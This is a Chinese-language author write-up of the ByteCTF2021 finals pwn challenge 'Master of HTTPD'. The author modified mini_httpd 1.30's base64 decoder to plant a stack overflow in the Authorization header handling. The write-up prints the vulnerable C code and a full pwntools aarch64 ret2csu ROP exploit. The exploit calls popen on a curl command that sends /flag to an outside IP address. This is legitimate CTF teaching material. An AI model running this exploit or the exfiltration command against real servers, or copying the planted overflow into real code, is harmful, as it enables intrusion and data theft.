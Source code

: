 # ByteCTF2021 `Master of HTTPD`

决赛签到题

## 这道题的诞生

- 对国内某些CTF出题人**打着httpd旗号出题却用stdin/stdout来和做交互**的行为深感疑惑，简单的HTTP报文Parser也能算httpd？是不是再ARM/MIPS交叉编译一下就能号称IoT赛题了？23333
- 很久以前挖到过一个Authorization字段解码触发的栈溢出，应该是去年的CVE-2020-14473，但考虑到原漏洞的lighttpd应该过于常见，或许有选手接触过，于是当即clone 相对冷门的（但也不是太冷门）mini_httpd 1.30，再给`b64_decode`加个小改动，塞个`memcpy`

```c=
/* Do base-64 decoding on a string.  Ignore any non-base64 bytes.
** Return the actual number of bytes generated.  The decoded size will
** be at most 3/4 the size of the encoded, and may be smaller if there
** are padding characters (blanks, newlines).
*/
int b64_decode( const char* str, unsigned char* space, int size )
    {
    const char* cp;
    int space_idx, phase;
    int d, prev_d = 0;
    unsigned char c;
    space_idx = 0;
    phase = 0;
    for ( cp = str; *cp != '\0'; ++cp )
        {
        d = b64_decode_table[(int) ((unsigned char) *cp)];
        if ( d != -1 )
            {
            switch ( phase )
                {
                case 0:
                ++phase;
                break;
                case 1:
                c = ( ( prev_d << 2 ) | ( ( d & 0x30 ) >> 4 ) );
                if ( space_idx < size )
                    space[space_idx++] = c;
                ++phase;
                break;
                case 2:
                c = ( ( ( prev_d & 0xf ) << 4 ) | ( ( d & 0x3c ) >> 2 ) );
                if ( space_idx < size )
                    space[space_idx++] = c;
                ++phase;
                break;
                case 3:
                c = ( ( ( prev_d & 0x03 ) << 6 ) | d );
                if ( space_idx < size )
                    space[space_idx++] = c;
                phase = 0;
                break;
                }
            prev_d = d;
            }
        }
    log_decoded_msg(space, ((size*3)/4)+1);
    /*memcpy(decoded_str, space, strlen((char*)space));
    puts(decoded_str);*/
    return space_idx;
    }

void log_decoded_msg(char * msg, int size){
        char decoded_str[0x100];
        memcpy(decoded_str, msg, size);
        puts(decoded_str);
        return;
}
```

## 这道题的利用

- 触发`b64_decode`需要访问带有`.htpasswd`的目录，需要选手扫到admin目录触发登陆校验
- Aarch64的栈溢出可以直接套用ret2csu模板

```python=
from sys import argv
from pwn import *
from base64 import b64encode
context.arch = "aarch64"


class Attack(object):

    def __init__(self, ip, port):
        self.ip = ip
        self.port = port
        self.conn = None
        self.base = {}

    def connectTarget(self):
        return remote(self.ip, self.port)

    def pb64(self, n, base=""):
        if base in self.base.keys():
            return p64(n + self.base[base])
        else:
            return p64(n)

    def generatePayload(self):
        payload = b''
        payload += b'A'*0x100
        payload += self.pb64(0x41df00)    # accessible memory
        payload += self.pb64(0x407d98)    # CSU Gadget 0
        payload += self.pb64(0x000000)*3  # X29
        payload += self.pb64(0x407d78)    # X30 -> CSU Gadget 2
        payload += self.pb64(0x000000)    # X19
        payload += self.pb64(0x000000)    # X20
        # payload += self.pb64(0x41c118)    # X21 => GOT[popen]
        payload += self.pb64(0x4234fc)    # ptr to `bl popen`
        payload += self.pb64(0x4234c0)    # X22 => X0 "/usr/bin/curl http://120.79.211.91:9997 -H \"Referer: `cat /flag`\""
        payload += self.pb64(0x40a900)    # X23 => X1 "r"
        payload += self.pb64(0x000000)    # X24 => X2 0
        return b64encode(payload)
    
    def generateMessage(self):
        message = b""
        message += b"GET /admin/flag.html HTTP/1.1\r\n"
        message += b"Host: 23333\r\n"
        message += b"User-Agent: C0ss4ck\r\n"
        message += b"Accept: */*\r\n"
        message += "Authorization: Basic {}\r\n".format(self.generatePayload().decode()).encode()
        message += b"   curl http://120.79.211.91:9997 -H \"Referer: `cat /flag`\"\r\n"
        message += b"\r\n"
        message += self.pb64(0x4062c8)
        print(message.decode('latin-1'))
        return message

    def trigger(self):
        self.conn = self.connectTarget()
        self.conn.send(self.generateMessage())
        self.conn.interactive()


a = Attack(argv[1], int(argv[2]))
a.trigger()

```
其实本来打算开PIE，这样构造ROP会相对麻烦。虽然mini_httpd的daemon可以保持基地址不变，但是ret2csu中只有W0而无X0，导致ROP最终调用函数的首参数不能为字符串地址。有兴趣的同学可以试试开启PIE下的漏洞利用。

## 一则广告（不是）

华为云租一台aarch64 ubuntu，gdb直接调试，非常方便。如果gdb各种bug打印不了回显，那就gdbserver转发到正常的amd64机器上调试

## 非预期

选手可以传`\x00`，对payload构造的要求大大降低。

//在大多数实战中，`\x00`会被直接截断

